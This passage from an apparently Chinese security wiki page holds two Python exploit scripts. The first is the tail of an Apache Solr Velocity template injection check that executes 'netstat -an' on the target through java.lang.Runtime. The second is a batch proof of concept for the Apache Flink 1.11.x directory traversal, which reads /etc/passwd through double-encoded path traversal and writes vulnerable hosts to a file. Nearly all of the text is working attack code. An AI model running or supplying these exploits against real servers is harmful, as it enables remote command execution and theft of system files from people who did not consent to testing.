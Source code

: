 ```python
    "params.resource.loader.enabled": "true"
  }
}'''
				req = urllib2.Request(url_config,headers=headers1,data=data)
				rsp = urllib2.urlopen(req,timeout=8)
				url = self.result['target'].rstrip('/') + '/solr/{0}/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27netstat%20-an%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end'.format(core)
				req = urllib2.Request(url,headers=headers)
				rsp = urllib2.urlopen(req,timeout=8)
				text = rsp.read()
				if 'LISTEN' in text and 'ESTABLISHED' in text:
					self.result['status'] = True
		except Exception as e:
			self.result['info'] = str(e)
		return self.result
```
{% endtab %}

{% tab title="改批量" %}
相关代码如下：

```python
#!/usr/bin/env python
# coding:utf-8
# author:Yxuan
#affected versions are Apache Flink 1.11.0-1.11.2

import requests,sys,colorama
from colorama import *
init(autoreset=True)


banner='''\033[1;33;40m
  _______      ________    ___   ___ ___   ___        __ ______ _____ __  ___  
 / ____\ \    / /  ____|  |__ \ / _ \__ \ / _ \      /_ |____  | ____/_ |/ _ \ 
| |     \ \  / /| |__ ______ ) | | | | ) | | | |______| |   / /| |__  | | (_) |
| |      \ \/ / |  __|______/ /| | | |/ /| | | |______| |  / / |___ \ | |\__, |
| |____   \  /  | |____    / /_| |_| / /_| |_| |      | | / /   ___) || |  / / 
 \_____|   \/   |______|  |____|\___/____|\___/       |_|/_/   |____/ |_| /_/                                                                                                                                                 
'''


def verify():
	headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36"}
	payload= '/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd' 
	poc=urls+payload
	try:
		requests.packages.urllib3.disable_warnings()#解决InsecureRequestWarning警告
		response=requests.get(poc,headers=headers,timeout=15,verify=False)
		if response.status_code==200 and "root:x" in response.content:
			print(u'\033[1;31;40m[+]{} is apache flink directory traversal vulnerability'.format(urls))
			print(response.content)
			#将漏洞地址输出在Vul.txt中
			f=open('./vul.txt','a')
			f.write(urls)
```